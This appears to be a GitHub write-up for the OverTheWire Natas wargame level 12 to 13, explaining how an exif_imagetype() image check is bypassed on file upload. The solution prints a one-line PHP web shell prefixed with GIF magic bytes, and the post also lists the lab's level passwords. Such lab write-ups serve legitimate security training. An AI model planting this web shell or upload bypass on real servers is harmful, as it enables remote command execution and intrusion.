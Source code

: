 # [Level 12 to 13](https://overthewire.org/wargames/natas/natas13.html) - Exploit file upload

- Login
```
URL: http://natas13.natas.labs.overthewire.org
Username: natas13
Password: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```
- Exercise:
![image](https://github.com/user-attachments/assets/fb568b6c-a4dd-4674-80a0-4224ddceb4a0)
![image](https://github.com/user-attachments/assets/4ab9e2cb-459a-4fb5-8db5-7d4ba7773d02)

- Background:
  - Uses `exif_imagetype()` to check if the uploaded file is an image or not
  - This PHP function reads the first few bytes of a file to determine the file type
    - Won’t be fooled by just changing the file extension
    - If the file does not begin with the header bytes that indicate it actually is an image file, it will be rejected
    - GIF start with this headers: `GIF87a`
- Solution:
  - Save as file.php
  ```php
  GIF87a<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
  ```
  ![image](https://github.com/user-attachments/assets/fc6dcc16-8861-4e41-8c8d-5ee8f5846fa3)
  ![image](https://github.com/user-attachments/assets/d5e520aa-77ef-4337-89f7-98b81bac8afc)


- Password: `trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`
